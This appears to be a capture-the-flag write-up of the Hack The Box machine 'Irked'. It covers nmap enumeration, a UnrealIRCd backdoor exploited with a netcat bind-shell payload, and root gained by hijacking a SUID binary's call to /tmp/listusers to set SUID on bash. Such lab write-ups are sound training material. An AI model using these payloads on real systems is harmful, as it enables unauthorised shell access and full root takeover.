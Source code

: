 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30774542-e40f-4c9b-980f-2f2d14b873b1)

first enumeration with nmap

```
# Nmap 7.93 scan initiated Tue Jun  6 01:27:45 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,111,6697,8067 -Pn 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37088/udp6  status
|   100024  1          50025/udp   status
|   100024  1          52269/tcp6  status
|_  100024  1          54469/tcp   status
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  6 01:28:03 2023 -- 1 IP address (1 host up) scanned in 18.05 seconds
```
cool we've got an interesting service `irc` running `UnrealIRCd`.


## Exploiting IRC

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eedf44ff-18a0-47d4-a107-006af209bcd2)

running an nmap irc backdoor script, was able to bind a shell, and connect to the shell. we are in as user `ircd`. 

```
nmap -d -p 8067 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 1337 -e /bin/sh' -Pn 10.10.10.117
```
nmap script payload.


## Privilege Escalation

```
ircd@irked:/tmp$ find / -perm -u=s -type f 2>/dev/null
[***]
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/tmp$
```
checking for suid, we can see an suid bin `/usr/bin/viewuser`. let's check out what this bin does. 

```
ircd@irked:/tmp$ file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID
[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped
ircd@irked:/tmp$ strings /usr/bin/viewuser
/lib/ld-linux.so.2   
libc.so.6
_IO_stdin_used       
setuid                     
puts        
system         
__cxa_finalize   
__libc_start_main
GLIBC_2.0   
GLIBC_2.1.3      
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
This application is being devleoped to set and test user permissions
It is still being actively developed
/tmp/listusers
;*2$"
GCC: (Debian 7.2.0-8) 7.2.0
crtstuff.c
deregister_tm_clones
[***]
ircd@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-06-05 21:21 (:0)
djmardov pts/1        2023-06-06 04:40 (10.10.14.16)
sh: 1: /tmp/listusers: not found
```
we can see it calls a bin `/tmp/listusers` which is not available. let's tak advantag of this.

```
ircd@irked:/tmp$ touch listusers
ircd@irked:/tmp$ nano listusers 
ircd@irked:/tmp$ cat listusers 
bash -c "chmod +s /bin/bash"
ircd@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-06-05 21:21 (:0)
djmardov pts/1        2023-06-06 04:40 (10.10.14.16)
ircd@irked:/tmp$ /bin/bash -p
bash-4.3# id
uid=1001(ircd) gid=1001(ircd) euid=0(root) egid=0(root) groups=0(root),1001(ircd)
bash-4.3# 
```
created an suid bin inside the `listusers` file running it gave us bash suid. then `bash -p` brought the root shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/362ad8e1-b4a6-4ddb-b032-848eead76d07)

and we are through.





